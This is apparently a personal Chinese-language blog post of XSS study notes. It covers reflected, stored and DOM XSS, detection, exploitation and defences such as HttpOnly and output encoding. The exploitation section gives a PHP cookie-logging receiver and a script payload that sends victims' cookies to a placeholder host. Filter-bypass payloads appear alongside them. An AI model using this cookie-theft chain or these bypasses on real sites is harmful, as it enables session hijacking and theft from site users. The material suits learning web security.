 ```yaml
---
title: XSS学习
date: 2016-04-03 20:35:43
categories: 安全
tags: [Web安全,XSS]
---
```


## 一、XSS原理
xss即 跨站脚本攻击(Cross Site Scripting)，是指攻击者在页面中插入恶意的Script脚本，当用户浏览页面时，插入其中的Script脚本会被执行，从而达到攻击的目的。
例如：
```
<?php
$name = $_GET['name'];
echo "Welcome".$name;
?>
```
<!--more-->
在此页面中，当我们输入`<script>alert('xss')</script>`,就会弹出xss警告框。这只是最简单的应用，理论上javascript可以做的事，xss都可以达到。
所以XSS可以用来获取用户的cookie，挂马，蠕虫等等



## 二、XSS分类
XSS分为3类
### 反射型XSS
反射型XSS,即把恶意构造的数据'反射'给浏览器，由浏览器解析后造成漏洞，需要用户浏览带有XSS代码的url才可以攻击成功。也称为非持久性XSS。
如先前的例子中所示，构造一个链接 `http://xxx.com/index.html?<script>alert('xss')</script>`发送给被攻击对象，当用户点击此链接时就会被攻击。
### 持久型XSS
存储型XSS也被称为持久型XSS，当攻击者输入一段恶意脚本后，被服务端接受保存，当用户访问这个页面时，恶意脚本就会被执行，从而造成漏洞。下次不用再输入XSS代码，持久型XSS比较隐蔽，不需要刻意触发。

### DOM XSS
DOM即文档对象模型（Document Object Model），DOM可以通过JavaScript，重构整个 HTML 文档。
通过修改页面的DOM节点形成的XSS，称之为DOM XSS。
例如：
```
var index=document.URL.indexOf("xss=")+4;
document.write(decodeURI(document.URL.substring(index)))
```
document.URL.indexOf() 方法可返回某个指定的字符串值在字符串中首次出现的位置。+4是略去'xss='  
document.URL是获取URL地址。  
Substring() 方法用于提取字符串中介于两个指定下标之间的字符，在此处即提取'xss='后面的内容。  
decodeURI函数可对编码过的 URI 进行解码  

当点击链接`http://xxx.com/index.html?xss=%3Cscript%3Ealert%28%27xss%27%29%3C/script%3E`之时，就会产生弹出XSS。

## 三、XSS攻击
### 1.XSS检测
#### (1)、手工检测
尝试输入 `< > " ' () `等，查看源代码是否被转义，如果没有被转义，则有可能会有漏洞。总之，就是查看输入特殊字符有没有过滤。  
不知道输出在何处时，就需要不断测试了  
普通注入：`<script>alert('xss')</script>`  
闭合标签注入：`/><script>alert('xss')</script>`  
闭合标签注入：`</textarea><script>alert('xss')</script>`     

#### (2)、工具检测
绝大多数综合扫描工具都可以检测XSS漏洞，如AWVS，APPSCAN，Netsparker等等，也可以使用专业的XSS扫描工具。如XSSER，XSSF等。  
xsser参考  http://blog.csdn.net/ronghua_liu/article/details/6148951  
xssf参考  http://my.oschina.net/u/1188877/blog/282206?fromerr=w7ynQiSF  
此外还有fuzz测试。Fuzz Testing（模糊测试）是一种测试方法，即构造一系列无规则的“坏”数据插入应用程序，判断程序是否出现异常，以发现潜在的bug。  
参考https://security.tencent.com/index.php/blog/msg/28
http://www.z7ys.com/31002.html

### 2.XSS利用
利用javascipt可以读取当前cookie。输入`<script>alert(document.cookie)</script>`会弹出cookie  
如何获取用户cookie。参考http://www.2cto.com/Article/201302/190742.html  
简单的构造如下：
首先创建接受页面：
```
<?php
$cookie = $_GET['msg'];
$ip = getenv ('REMOTE_ADDR');
$time=date("j F, Y, g:i a");
$referer=getenv ('HTTP_REFERER');
$fp = fopen('cook.txt', 'a');
fwrite($fp, 'Cookie: '.$cookie.'<br> IP: ' .$ip. '<br> Date and Time: ' .$time. '<br> Referer: '.$referer.'<br><br><br>');
fclose($fp);
?>
```
将其保存为xss.php
然后在XSS漏洞处插入
`<script>document.location="http://xxx.com/xss.php?msg="+document.cookie;</script>`
其中xxx.com为你的接受地址。  
获取cookie也可以使用一些xss平台。如XSS platform。http://www.webxss.cn/ 是一个免费的XSS平台。
其中有很多模块，非常方便,如图。
![](http://7xo8y2.com1.z0.glb.clouddn.com/xssxuexi2016-04-1418-42-00.png)
搭建过程参考http://www.2cto.com/Article/201308/239747.html  
此外XSS也可以用来钓鱼，蠕虫攻击等。
### 3.XSS构造
利用img标签  
`<img scr=1 onerror=alert('xss')>`  
利用链接  
`<a href=javascrip:alert('xss')>s</a>`  
利用iframe变迁  
`<iframe src=javascript:alert('xss');height=0 width=0 /><iframe>`  
利用iframe的scr来弹窗  
`<img src="1" onerror=eval("\x61\x6c\x65\x72\x74\x28\x27\x78\x73\x73\x27\x29")></img>`  
绕过技巧  
改变大小写，如 `<sCRipt>alert('xss')</sCRipt>`  
嵌套使用 `<scr<script>ipt>alert(1)</scr<script>ipt>`  
还可以利用编码进行绕过，如
`<img src="x" onerror="&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;">`  
关于编码和绕过的更多内容，参考：  
http://drops.wooyun.org/tips/689  
http://drops.wooyun.org/tips/845

## 四、XSS防御
### 1、http-only
http-only并不能防御xss,但可以保护用户cookie。
cookie格式
Set－Cookie: NAME=VALUE；Domain=DOMAIN_NAME；Path=PATH；Expires=DATE；HttpOnly；SECURE
当设置了http-only时，客户端脚本就无法读写cookie。
### 2、输入过滤
1.可以设置黑名单的方式，如过滤`<` `>` `"` `'` `&` 等特殊字符。过滤`<script>`,`javascrip`等字符。  
2.也可以使用php中htmlspecialchars() ，htmlentities()函数把预定义的字符转换为 HTML 实体。  javascript的编码方式可以使用 javascripEncode    
3.也可以使用OWASP ESAPI，JSOUP进行防御，不需要自己再去实现。

** 参考 **
 - 《Web安全深度剖析》
 - 《白帽子讲Web安全》
 - wooyun知识库 http://drops.wooyun.org/
 - freebuf http://www.freebuf.com/articles/44481.html

  <br>  <br>

感觉同SQL注入一样，学习的过程中，发现XSS的内容还是很多，有点驾驭不住，只能记录一些基础的知识。关于编码和绕过那一块，还是有些没看明白。需要比较好的js能力。另外还有各种标签中的输入，浏览器的差异。比如我在测试过程中发现，在chrome浏览器中打开xss链接就无法成功，但是在firefox中就可以，应该是chrome做了防御。还有dom xss的内容，也只是了解了大概。  
再看了一下XSS挑战赛writeup http://drops.wooyun.org/tips/3059 ，顿时感觉不好了。
